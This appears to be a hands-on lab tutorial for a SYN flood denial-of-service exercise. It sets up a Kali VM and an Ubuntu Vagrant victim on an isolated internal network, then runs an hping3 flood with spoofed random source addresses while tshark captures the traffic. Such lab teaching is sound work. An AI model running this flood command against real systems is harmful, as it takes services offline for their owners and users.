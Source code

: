 Executing a SYN Flood Denial of Service Attack
================================================



Prerequisits
-----------------
Vagrant and VirtualBox installed and properly configured.

Download Kali and Setup VirtualBox
-----------------------------------
1. Go https://www.offensive-security.com/kali-linux-vmware-arm-image-download/
2. Download the latest 64-bit version in the Prebuilt Kali Linux VirtualBox Images section.
3. Unzip the file. There should be a single .OVA file.
4. In VirtualBox, click File > Import Appliance.

&nbsp;![Kali Import](Kali-import-1.png)

5. Select the .OVA file you just downloaded.

&nbsp;![Kali Import](Kali-import-2.png)

6. The default virtual machine configuration allocates 2GB of RAM. Lower the amount of RAM if you computer only has 4GB of RAM installed.

&nbsp;![Kali Import](Kali-import-3.png)

7) After the virtual machine has been creted, right-click on the Kali VM, choose Settings > Network. Change Adapter 1 from `NAT` to `Internal Network`. Click `OK` to save the settings. The Internal Network option allows your VM to communicate with other virtual machines on the host, but it does not allow you to connect to the Internet.

Basic Kali Configuration
-------------------------------
Kali will boot up without any installation required.

1. At the login screen, click and drag up to unlock the window.
2. For the user, enter `root`.
3. The password is `toor` (root backwards).
4. Open a command terminal. Run the following command to set the IP address and subnet mask.

```
ifconfig eth0 192.168.2.5 netmask 255.255.255.0
ifconfig
```

The output of `ifconfig` should look similar to the following figure. The IP address and subnet mask should match.

&nbsp;![Kali IP Configuration](kali-ip-config.png)

Keep the terminal window open until you verify connectivity with the victim.

Victim Client Configuration
------------------------------
In this section, you will create a client VM that will be exploited.

1. Create a new folder on your computer.
2. Hold shift, right-click, and choose "Open command window here."
3. Run the following command to create a Vagrantfile:

```
vagrant init ubuntu/Trusty64
```

4. You should see the following output:

```
Management with Untangle>vagrant init ubuntu/trusty64
A `Vagrantfile` has been placed in this directory. You are now
ready to `vagrant up` your first virtual environment! Please read
the comments in the Vagrantfile as well as documentation on
`vagrantup.com` for more information on using Vagrant.
```

5. Edit the Vagrantfile in Notepad or any other text editor. Replace the entire contents of the file with the following text:

```
# -*- mode: ruby -*-
# vi: set ft=ruby :

Vagrant.configure(2) do |config|
  config.vm.box = "ubuntu/trusty64"
  config.vm.network "private_network", ip: "192.168.2.10", virtualbox__intnet: true
end
```

6. Save the file.
7. Run the following commands from the command prompt:

```
vagrant up
vagrant ssh
```

8. Run `ifconfig` to see the client's configuration. The IP address of `eth1` should be 192.168.2.10/24.

```
ifconfig
```

You should see output similar to the following. The IP address and subnet mask should match the screenshot.

&nbsp;![Victim IP Configuration](victim-ip-config.png)

If the IP address was not set properly, run the following command to update it now.

```
ifconfig eth1 192.168.2.10 netmask 255.255.255.0
```

To capture network activity, you will need to install `tshark`---a command line version of Wireshark. Run the following command to install it, conforming your choice when prompted.

```
sudo apt-get install tshark
```

Verify Connectivity
----------------------
The Kali instance and the victim instance should be on the name subnet. Test basic connectivity from each machine using `ping`.

From the victim, run the following command.

```
ping 192.168.2.5
```

The ping should be successful.

&nbsp;![Ping from Victim to Kali](victim-ping-kali.png)

Run the following command in Kali.

```
ping 192.168.2.10
```

&nbsp;![Ping from Kali to Victim](kali-ping-victim.png)

The ping should be successful. Once your IP configuration is correct, you can close the terminal window in the Kali instance by running `exit`.

Ensure that the instances can ping each other before proceeding to the next step. If the computers cannot communicate, verify and correct the following settings:

  - Ensure the IP addresses and subnet masks are correct (192.168.2.10/24 for eth1 on victim, 192.168.2.5/24 for eth0 on Kali).
  - Ensure that the network adapters are set to "internal" for eth1 on victim and eth0 on Kali.
  - If you enabled any firewalls on the victim or Kali, disable them.

Executing a SYN Flood Attack with hping3
--------------------------------------------
1. In the `victim`, run the following command.

```
tshark -i eth1 -a duration:100
```

2. In Kali, run the following command to start an attack. (Make sure `-S` uses a capital `S`.) Press control+c to stop the command after half a second to a second to stop the attack (unless you want to lock up your computer--remember, this is a denial of service attack with the purpose of making a machine unresponsive.)

```
root@kali:~# hping3 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.2.10
```

The options mean:
  - `d`: data size
  - S: send SYN only
  - w: TCP window size
  - p: port
  - rand-source: spoof the source IP address
  - 192.168.2.10: the target of the attack

The output on the victim's console should look similar to the following figure.

&nbsp;![Victim Packet Capture](victim-packet-capture.png)

How many packets were sent in the duration of your attack? How many packets were sent per second?

Cleanup
---------------------------------
In Kali, close all windows and close the machine. Save the machine state or power it off---the decision is up to you.

If you want to save your Ubuntu server, run the following command to exit the SSH session and save the machine state. (Note--no need to enter the dollar sign or greater-than symbols--they merely indicate the prompt that you should see when running the commands.)

```
$ exit
> vagrant suspend
```

If you want to delete your Ubuntu server, run the following commands to exit the SSH session and delete the machine completely.

```
$ exit
> vagrant destroy
```